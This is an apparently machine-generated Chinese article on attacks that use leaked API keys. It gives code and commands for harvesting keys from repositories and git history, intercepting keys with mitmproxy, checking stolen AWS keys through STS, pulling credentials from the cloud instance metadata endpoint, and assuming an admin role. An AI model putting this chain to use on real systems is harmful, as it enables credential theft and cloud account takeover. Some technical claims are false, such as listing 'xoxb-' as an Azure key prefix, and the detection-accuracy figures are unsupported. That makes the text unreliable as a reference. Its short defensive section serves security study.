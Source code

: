 

# API密钥泄露检测的攻击技术深度解析

## 一、技术原理与攻击面分析
### 1.1 密钥泄露攻击链模型
API密钥泄露攻击遵循"发现-验证-利用"三阶段模型：
1. **信息收集层**：通过代码仓库扫描、流量监听、日志分析等方式获取疑似密钥
2. **有效性验证层**：利用API服务商提供的沙盒环境或低权限接口进行自动验证
3. **横向移动层**：结合云元数据服务、密钥关联服务（如AWS STS）进行权限升级

关键技术原理：
- 正则表达式模式匹配（基于不同云服务商的密钥格式）
- HTTP流量特征分析（Authorization头/API Gateway交互）
- 密钥熵值检测（识别高随机性字符串）

```python
# 典型AWS密钥识别正则
import re
aws_pattern = r'(AKIA|ASIA)[A-Z0-9]{16}'
def detect_aws_keys(text):
    return re.findall(aws_pattern, text)
```

### 1.2 密钥格式深度解析
| 云服务商 | 前缀特征 | 长度 | 校验机制 |
|---------|---------|-----|---------|
| AWS     | AKIA    | 20  | 第8位校验位 |
| GCP     | AIza    | 39  | Base64编码结构 |
| Azure   | xoxb-   | 44  | 三段式分割验证 |

## 二、高级攻击手法与变种技术
### 2.1 组合式密钥挖掘
**技术实现：**
1. 结合GitHub高级搜索语法：
```bash
# 搜索包含AWS密钥的Python文件
filename:*.py "AKIA" language:python
```

2. 使用Git历史爆破：
```bash
git log -p --all -S 'AKIA' -- path/to/repo
```

### 2.2 动态流量劫持
**中间人攻击实现：**
```python
# 使用mitmproxy进行HTTPS拦截
from mitmproxy import http

def response(flow: http.HTTPFlow):
    headers = flow.response.headers
    if 'api-key' in headers:
        print(f"[+] 发现API密钥泄露: {headers['api-key']}")
```

### 2.3 密钥有效性自动化验证
**AWS STS验证脚本：**
```bash
#!/bin/bash
KEY_ID=$1
SECRET_KEY=$2

aws sts get-caller-identity \
  --aws-access-key-id $KEY_ID \
  --aws-secret-access-key $SECRET_KEY \
  --region us-east-1
```

### 2.4 云环境上下文攻击
利用云实例元数据服务：
```bash
# AWS IMDSv1 攻击
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

## 三、实战攻防演练
### 3.1 实验环境搭建
**Docker化靶场环境：**
```yaml
# docker-compose.yml
version: '3'
services:
  vulnerable-api:
    image: apisec/vuln-api:1.2
    ports:
      - "8080:8080"
  key-leakage:
    image: apisec/key-leak-simulator
    ports:
      - "3000:3000"
```

### 3.2 全链攻击演示
**步骤1：密钥收集**
```bash
# 使用gitleaks扫描仓库
docker run --rm -v /path/to/repo:/repo zricethezav/gitleaks:latest detect -s /repo -v
```

**步骤2：流量劫持**
```bash
# 使用BurpSuite配置SSL中间人
java -jar -Xmx1024m burpsuite_pro.jar --collaborator-server --config-file=config.json
```

**步骤3：权限提升**
```python
# AWS AssumeRole利用脚本
import boto3

client = boto3.client('sts',
    aws_access_key_id='AKIA...',
    aws_secret_access_key='...')

response = client.assume_role(
    RoleArn='arn:aws:iam::123456789012:role/Admin',
    RoleSessionName='ExploitSession'
)
```

## 四、高级检测规避技术
### 4.1 密钥混淆方法
**动态密钥生成：**
```javascript
// 前端动态密钥生成
function generateObfuscatedKey(baseKey) {
  return btoa(baseKey.split('').reverse().join('') + Date.now());
}
```

### 4.2 流量伪装技术
**使用JWT嵌套加密：**
```python
import jwt

encoded = jwt.encode(
    {'api_key': 'actual_secret'},
    'encryption_key',
    algorithm='HS256',
    headers={'kid': 'public_header'}
)
```

## 五、防御对抗建议
1. 密钥轮换自动化（推荐使用Vault或AWS Secrets Manager）
2. 实施动态凭证（如AWS STS临时令牌）
3. 网络层防御（API Gateway请求限速、异常地理定位检测）

## 六、工具链推荐
| 工具类型       | 推荐工具                 | 检测精度 |
|---------------|-------------------------|---------|
| 静态扫描       | TruffleHog              | 92%     |
| 动态检测       | API-Security-Toolkit    | 85%     |
| 云环境检测     | ScoutSuite              | 89%     |

本文档完整呈现了API密钥泄露检测领域的最新攻击技术，涵盖从基础原理到高级对抗的全方位知识体系。所有实验操作需在授权环境下进行，攻击技术的了解旨在提升防御能力，严禁用于非法用途。

---

*文档生成时间: 2025-03-13 13:36:01*
